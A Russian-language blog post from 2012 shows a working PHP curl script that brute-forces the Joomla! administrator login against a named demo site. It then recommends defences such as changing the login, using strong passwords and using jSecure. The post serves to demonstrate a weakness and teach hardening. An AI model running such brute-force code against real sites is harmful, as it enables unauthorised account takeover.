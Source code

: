 ```yaml
---
author: "Serhii Polishchuk"
title: "Подбор пароля к Joomla! админке"
date: 2012-04-09
tags: []
draft: false
---
```

<!--more-->
[![](http://kotoblog.pp.ua/wp-content/uploads/2012/04/pass-vk-300x300.jpg)](http://kotoblog.pp.ua/wp-content/uploads/2012/04/pass-vk.jpg) О небезопасности дефолтного логина в Joomla! я рассказывал в предыдущей заметке. Теперь же я постараюсь показать на конкретном примере почему это так. Также расскажу каким образом можно избежать такого рода уязвимости.
Во время работы над связкой Curl + SimpleHtmlDom для парсинга ВКонтакте, меня вдруг осенило. Вот пример рабочего кода перебора пароля к админке Joomla!:

```
require_once 'simple_html_dom.php';
$url = 'http://demo15.cloudaccess.net/administrator/index.php';
$pass = array('pass0','pass1','pass2','demo','pass3','pass4');
$ch = curl_init();
foreach ($pass as $password){
  curl_setopt($ch, CURLOPT_URL, $url);
  curl_setopt($ch, CURLOPT_COOKIEJAR, 'cookies.txt'); // вроде куда сохранять
  curl_setopt($ch, CURLOPT_RETURNTRANSFER,true);
  $out = curl_exec($ch);

  $html = new simple_html_dom();
  $html->load($out);
  $post = 'username=demo&;passwd='.$password.'&lang=';
    foreach($html->find('input[type=hidden]') as $element)
      $post.= '&'.$element->name.'='.$element->value;

  curl_setopt($ch, CURLOPT_URL, $url);
  curl_setopt($ch, CURLOPT_COOKIEFILE, 'cookies.txt'); // вроде откуда брать
  curl_setopt($ch, CURLINFO_HEADER_OUT,true);
  curl_setopt($ch, CURLOPT_POST, true);
  curl_setopt($ch, CURLOPT_POSTFIELDS, $post);
  curl_exec($ch);
  echo curl_error($ch);
  $info = curl_getinfo($ch);
  echo $password.'...'.$info['http_code'].'
';
  if ($info['http_code'] == 303)
    die('done!');
}

curl_close ($ch);
unset($ch);
```

Можно конечно рефакторить и оптимизировать до бесконечности, но пример робочий. Если мы захотим взломать админку простым перебором всех возможных вариантов паролей, например используя базы самых частых паролей или переберем возможные даты рождения, в сочитании с логином admin то есть вероятность того чтомы сможем подобрать пароль и никто нам в этом не помешает. Joomla! не имеет встроенной системы антифлуда, разве что хостинг, поэтому скорость перебора паролей будет зависить лишь от ширины канала и от скорости сервера.
Для лучшей безопасности меняем логин, придумываем сложный пароль и перестаем светить логинами во френтенде. Чтобы не давать повод подумать лихого используйте [jSecure](http://extensions.joomla.org/extensions/access-a-security/site-security/login-protection/12254) \- он поможет скрыть админку от чужых глаз.
Пример приведен для ознакомления, не нужно его использовать для взлома \- в большинстве случаев это незаконно.
P.S.: Спасибо [Мах](http://www.shtuchkishop.com/) за советы по усовершенствованию скрипта. :)
